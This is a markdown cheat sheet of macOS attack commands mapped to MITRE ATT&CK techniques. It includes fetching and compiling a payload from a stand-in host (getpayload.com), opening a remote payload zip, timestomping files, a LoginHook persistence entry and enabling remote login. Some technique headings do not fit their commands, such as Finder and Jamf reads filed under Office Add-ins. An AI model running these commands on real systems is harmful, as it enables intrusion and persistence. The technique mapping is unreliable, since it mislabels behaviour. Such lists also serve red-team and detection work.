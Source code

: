 ## T1036.005 - Masquerading: Match Legitimate Name or Location

**Source: TBD**

| Description | Command |
|-------------|---------|
| Change a file's creation and modification timestamps | `SetFile -d "04/25/2023 11:11:00" -m "04/25/2023 11:12:00" targetfile.txt` |

## T1105 - Ingress Tool Transfer

**Source: TBD**

| Description | Command |
|-------------|---------|
| Download and compile a payload | `curl https://getpayload.com/payload_code.apple_script && osacompile -x -e payload_code.apple_script -o payload.app` |
| Download file | `nscurl -k https://google.com -o /private/tmp/google` |
| Download file | `nscurl https://google.com -dl` |
| Download file | `nscurl https://google.com -dir /private/tmp/google` |
| Open a malicious file | `open Malicious.app` |
| Download a malicious file | `open -g https://mypayload.io/payload.zip; sleep 3; killall Safari` |

## T1543.004 - Create or Modify System Process: Launch Daemon

**Source: TBD**

| Description | Command |
|-------------|---------|
| Add a login item to the current user | `sudo defaults write /Library/Preferences/com.apple.loginwindow LoginHook gain_persistence.sh` |

## T1137.006 - Office Application Startup: Add-ins

**Source: TBD**

| Description | Command |
|-------------|---------|
| Show mounted servers | `defaults read com.apple.finder "ShowMountedServersOnDesktop"` |
| Get Active Directory user info from Jamf Connect | `defaults read com.jamf.connect.state` |

## T1219 - Remote Access Software

**Source: TBD**

| Description | Command |
|-------------|---------|
| Enable Remote Login | `sudo systemsetup -setremotelogin on` |
| Enable Remote Apple Events | `sudo systemsetup -setremoteappleevents on` |
| Enable safaridriver | `sudo safaridriver --enable` |
